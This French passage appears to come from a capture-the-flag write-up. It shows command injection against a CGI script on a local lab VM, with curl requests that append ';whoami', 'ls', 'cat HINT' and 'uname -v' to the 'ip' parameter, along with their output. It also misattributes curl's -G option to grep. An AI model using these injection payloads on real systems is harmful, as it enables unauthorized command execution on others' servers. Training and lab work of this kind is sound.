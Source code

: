 Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, séparées par exemple par un point-virgule. L'injection de commandes est confirmée, voici les données qui ont pu être exfiltrées après quelques essais.

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bwhoami 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #whoami
<pre>www-data</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | tr -d '\n' | grep -oE '<pre>[^<]*</pre>' #ls
<pre>HINTexample.shlawrence</pre>
```

```grep``` montre vite ses limites avec les sauts de ligne et les retours chariot, heureusement ```sed``` arrive à la rescousse !

```console
root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bls 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #ls
<pre>
HINT
example.sh
lawrence
</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Bcat%20HINT 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #cat HINT
<pre>
<--flag: I'm afraid in order to escape this place, you will need to suffer more.-->
The final flag is a file on root's desktop. Get it through the webshell.</pre>

root@blinils:~# curl -v --silent http://192.168.56.101/cgi-bin/lawrence/trace.cgi?ip=JUNK%3Buname%20-v 2>&1 | sed -n '/<pre>/,/<\/pre>/p' #uname -v
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

L'option ```-G``` de __grep__ suivie de ```--data-urlencode``` permet de nous affranchir de l'encodage du paramètre ```ip```. 

```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=JUNK;uname -v;" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
#18~18.04.1-Ubuntu SMP Fri Mar 15 15:27:12 UTC 2019
</pre>
```

Et pour davantage de lisibilité, il est possible de stocker la commande souhaitée dans une variable d'environnement.
